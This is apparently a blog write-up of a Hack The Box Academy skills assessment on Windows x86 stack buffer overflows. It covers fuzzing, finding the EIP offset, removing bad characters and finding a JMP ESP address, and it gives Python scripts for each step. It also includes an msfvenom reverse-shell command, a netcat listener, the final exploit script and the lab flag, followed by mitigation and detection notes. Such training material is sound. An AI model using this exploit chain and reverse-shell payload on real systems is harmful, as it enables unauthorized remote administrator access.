### Capstone: Skills Assessment

> **Lab Question (Page 24)**: What is the flag found on the Administrator's Desktop folder you got after gaining remote code execution?
>
> **Flag / Answer**: `HTB{r3m073_3xpl0174710n_n1nj4}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

For this assessment, we will use 2 machine – the main target machine
(skill assessments machine), and a side machine, from the 'Jumping to
Shellcode' section:
Main machine:


Side machine:


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


### After unzipping, we get the following files

Lets RDP to the side machine, and get in there the 'assessment.zip':


After unzipping, we get the following files:


There is a file 'win32bof.exe'. lets open it with the debugger:


Now, the target machine is listening on the port '21449' for remote
connections (as we are told by the skill assessments instructions).


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


*_Figure 25.3 — Lab execution and output verification (Page 25)_*


### So lets prepare the python fuzzing script

So lets prepare the python fuzzing script:
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def fuzz():
try:
for i in range(0,10000,50):
buffer = b"A"*i
print("Fuzzing %s bytes" % i)
s = socket.socket(socket.AF_INET,
socket.SOCK_STREAM)
s.connect((IP, port))
s.send(buffer)
breakpoint()
s.close()
except:
print("Could not establish a connection")

fuzz()
we will save it as fuzz.py:

*note – the IP address is localhost because we are not yet dealing with the
target machine, all operations are currently performed on the side machine. *


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


### The program will crash after 500 bytes

The script will fuzz 50 bytes at every iteration. Lets run the script:

The program will crash after 500 bytes:


But we still need to determine the exact offset for the EIP register.
For that, we will generate the payload with 'pattern_create.rb'in the pwnbox
(or any other attacking machine):
/usr/share/metasploit-
framework/tools/exploit/pattern_create.rb -l 500 >
pattern.txt


We will create a second python script offset.py:

import socket
from struct import pack

IP = "127.0.0.1"
port = 21449


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


### def offset()

def offset():
pattern = "<patten.txt payload here>".encode('utf-8')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 21449))
s.send(pattern)
s.close()

offset()
replace <patten.txt payload here> with the content of the pattern.txt from
above.


Upon script execution:


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


### in total that must be sent before reaching EIP

We can observe that the EIP register value was modified to 70413670.

We take the EIP value, and with the tool 'pattern_offset.rb' – located in
'/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb' in the
pwnbox – we can use it with determine the offset of the EIP , meaning the bytes
in total that must be sent before reaching EIP:
/usr/share/metasploit-
framework/tools/exploit/pattern_offset.rb -q 0x70413670


The exact offset of the program is 469 bytes.

The next stage is to determine bad characters.
We will go to the logs window and enter in the command input prompt:
ERC --bytearray
As we did in 'Identifying Bad Characters' section.


And we will now run the following script as bad_chars.py:


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


### def bad_chars()

import socket
from struct import pack

def bad_chars():
all_chars = bytes([
0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
])
offset = 469
buffer = b"A" * offset
eip = b"B" * 4
payload = buffer + eip + all_chars

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 21449))
s.send(payload)
s.close()

bad_chars()


### And run it

*
*


And run it:

We take the ESP (stack pointer register) value: '00EFFB48'


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*_Figure 31.3 — Lab execution and output verification (Page 31)_*


### And run the compare on logs

And run the compare on logs:
ERC --compare 00EFFB48 C:\Users\htb-
student\Desktop\ByteArray_1.bin


We have a bad character 0x00, but we are not done yet.

Lets exploit the bad character from the check and run again:
ERC --bytearray -bytes 0x00


And in the desktop the file 'ByteArray_2.bin' appears:


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


### And run the script again

We will also remove the byte '0x00' from the 'bad_chars.py' script:

We reload the 'win32bof.exe' to the debugger (at least it was necessary for me
And run the script again:

Once again we take the ESP value, and compare it with C:\Users\htb-
student\Desktop\ByteArray_2.bin in the logs window:
ERC --compare 00EFFB48 C:\Users\htb-
student\Desktop\ByteArray_2.bin


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


### Now we also remove it from the bad_chars.py' script

Now we see the 0x0A is a bad character as well, lets create a new byte-array
file, without that bad character as well

ERC --bytearray -bytes 0x00,0x0A


And now we give 'ByteArray_3.bin' file

Now we also remove it from the bad_chars.py' script:


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


*_Figure 34.3 — Lab execution and output verification (Page 34)_*


### Then – we run the bad_chars.py again

And refresh debugger once again.
Then – we run the bad_chars.py again:

We note that the ESP value is not a bit difference, lets proceed:
→
ERC --compare 00D0FB48 C:\Users\htb-
student\Desktop\ByteArray_3.bin


0x0D is a bad character as well.

Lets repeat the same process:
ERC --bytearray -bytes 0x00,0x0A,0x0D
→


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


*_Figure 35.3 — Lab execution and output verification (Page 35)_*


### → rerun

→

→ rerun:

→
ERC --compare 00F2FB48 C:\Users\htb-
student\Desktop\ByteArray_4.bin


*
*


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


*_Figure 36.4 — Lab execution and output verification (Page 36)_*


### First, some module info

#### Technical Methodology & Exploit Execution:

And we search the command:
jmp esp


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


### the bad characters

We take the first one: 0X621014E3.

Lastly, we will generate the msfvenom payload. We will make sure to exclude
the bad characters:
msfvenom -p 'windows/shell_reverse_tcp' LHOST=<attacker-IP>
LPORT=4444 -f 'python' -b '\x00\x0A\x0D'


*
*

The payload will initiate reverse shell to the listener in 10.10.15.74:4444.

Lets make ready netcat listener on the arbitrary port 4444:
```bash
nc -lnvp 4444
```


And prepare the final exploit script:


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


*_Figure 38.3 — Lab execution and output verification (Page 38)_*


*_Figure 38.4 — Lab execution and output verification (Page 38)_*


### def exploit()

import socket
from struct import pack

def exploit():
<msfvenom payload>

offset = 469
buffer = b"A"*offset
eip = pack('<L', 0x621014E3)
nop = b"\x90"*32
payload = buffer + eip + nop + buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("<target-IP>", 21449))
s.send(payload)
s.close()


```bash
exploit()
```
replace the <msfvenom payload> with the payload generated above (as the
payload is specific for the listener in '10.10.15.74:4444', it was not included
explicity).

The script was saved as 'exploit.py':

*
*


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


### Now lets run the script

*note – the address of the target machine was changed as it took me several
sessions to complete the skill assessments. *

*Before we run the script – at this point we can shut down the side machine.
we focus here entirely on the target machine.*

Now lets run the script:
```bash
python script.py
```
the script itself produces no output, but inspecting the listener:

We have an administrator shell!


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


### From here the path obtaining the flag is short

From here the path obtaining the flag is short:


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1203, T1068` |
| **Common Weakness Enumerations** | `CWE-121, CWE-120` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1203`](https://attack.mitre.org/techniques/T1203/) | **Exploitation for Client Execution** | `Execution` | Overwriting Extended Instruction Pointer (EIP) or Structured Exception Handler (SEH) |
| [`T1068`](https://attack.mitre.org/techniques/T1068/) | **Exploitation for Privilege Escalation** | `Privilege Escalation` | Executing shellcode to spawn elevated process |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-121`: Stack-based Buffer Overflow](https://cwe.mitre.org/data/definitions/121.html)
- [`CWE-120`: Buffer Copy without Checking Size of Input](https://cwe.mitre.org/data/definitions/120.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Enable Windows exploit mitigations system-wide: Data Execution Prevention (DEP), Address Space Layout Randomization (ASLR), and SafeSEH.
- Audit application crashes via Windows Event ID 1000 (Application Error) with exception code `0xc0000005` (Access Violation).
- Deploy Microsoft Exploit Guard to enforce runtime mitigation policies on legacy unmanaged binaries.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Stack-Based Buffer Overflows on Windows x86](https://academy.hackthebox.com/module/32) — *Official Hack The Box curriculum track*
- [Corelan Team: Exploit Writing Tutorial Part 1 (Stack Based Overflow)](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) — *Authoritative Windows stack overflow guide*
- [Mona.py Plugin for Immunity Debugger / x64dbg](https://github.com/corelan/mona) — *Corelan automation script for finding jumps and bad characters*
- [Microsoft Security: Exploit Protection Documentation](https://learn.microsoft.com/en-us/defender-endpoint/exploit-protection) — *Windows platform defenses*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-35-stack-based-buffer-overflows-on-linux-x86/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 35: Stack-Based Buffer Overflows on Linux x86</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 36 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-37-attacking-wifi-protected-setup-wps/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 37: Attacking Wi-Fi Protected Setup (WPS) & WPA2</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
